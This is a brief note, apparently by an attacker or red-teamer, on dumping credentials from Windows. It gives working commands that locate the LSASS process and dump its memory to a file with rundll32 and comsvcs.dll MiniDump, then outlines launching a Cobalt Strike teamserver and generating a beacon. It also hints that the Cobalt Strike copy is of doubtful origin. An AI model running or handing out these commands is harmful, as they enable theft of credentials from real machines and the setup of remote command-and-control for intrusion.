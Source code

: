 ```
// doing it manually with access to the machine
tasklist /fi "imagename eq lsass.exe"
cd C:\Windows\System32
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 656 C:\ProgramData\lsassCS.dmp full
```

https://gist.github.com/JohnLaTwC/3e7dd4cd8520467df179e93fb44a434e

```
// doing it with Cobalt Strike - just for knowledge purposes, will ask around about distribution of this copy of Cobalt Strike :)

// set up the GUI
sudo ./teamserver.sh 192.168.163.128 password // start the teamserver
sudo ./cobaltstrike.sh // start the client to launch the GUI
// after that it's basically point and shoot

// generate a beacon
// clicky clicky

// do the thing
// clicky clicky
```



